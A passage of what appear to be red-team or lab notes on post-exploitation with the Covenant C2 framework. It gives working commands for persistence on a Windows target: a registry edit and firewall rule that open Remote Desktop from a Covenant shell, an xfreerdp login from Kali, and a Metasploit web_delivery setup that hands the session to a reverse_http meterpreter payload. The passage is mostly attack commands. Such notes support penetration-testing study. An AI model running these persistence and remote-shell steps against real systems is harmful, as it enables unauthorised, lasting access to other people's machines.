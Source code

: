 > After restarting the target windows machine
we should get a shell back in Covenant

To clean:
```
delete the register
delete the autorun file in C:\Users\Public\autorun
```

### Persistence via RDP
```
Workstation-01 > Remote Desktop Settings = off

in Covenant shell:
powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

> This command enables Remote Desktop.

In Kali:
```
xfreerdp /u:<user> /p:'password' /v:<target ip>
```

#### [+] Disable the firewall

The RDP persistence is very valuable, because it give us a GUI. So its easy to look.

In case you want disable the firewall rule, its the same command but change the 
```
{/d 0 -> /d 1} and {Enable-NetFirewallRule -> Disable-NetFirewallRule}
```

Disable the firewall rule:
```powershell
powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f; Disable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

## Port Forward

### Session Passing to Metasploit

> if we have a session in covenant of any integrity and need to use port forwarding, autoroute etc
we can pass the session to the metasploit, because covenant does not have that functionality


msfconsole:
```
search web_delivery
use exploit/multi/script/web_delivery
set target 2 = powershell
set payload windows/x64/meterpreter/reverse_http 
set others options
exploit -j
copy the payload
```
